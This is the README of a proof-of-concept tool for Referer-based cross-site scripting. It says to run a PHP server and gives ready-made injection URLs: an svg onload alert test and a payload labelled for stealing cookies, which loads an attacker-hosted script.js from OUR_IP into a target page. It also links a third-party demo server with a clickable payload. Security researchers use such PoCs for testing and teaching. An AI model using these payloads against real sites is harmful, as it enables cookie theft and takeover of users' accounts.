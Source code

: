 ## Referer-based XSS PoC

### Starting the server

Start the server from the repo directory with *php -S 0.0.0.0:80*

### Example

for testing:
```
[http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=TARGET_URL]
```

or to steal cookies:
```
[http://OUR_IP<script src=http://OUR_IP/script.js></script>?target=TARGET_URL]
```

Code based on what's discussed at Geekboy's blog here:
https://www.geekboy.ninja/blog/exploiting-unusual-referer-based-xss/

Geekboy also set up a vulnerable server for testing as discussed in the blog entry linked above. This link works as a test of our index.php file:
```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php
```

He set up a PoC here which is the same as index.php. You can click this link directly as is:
[http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php](http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php)

*Note: Replace OUR_IP and TARGET_URL as appropriate.*

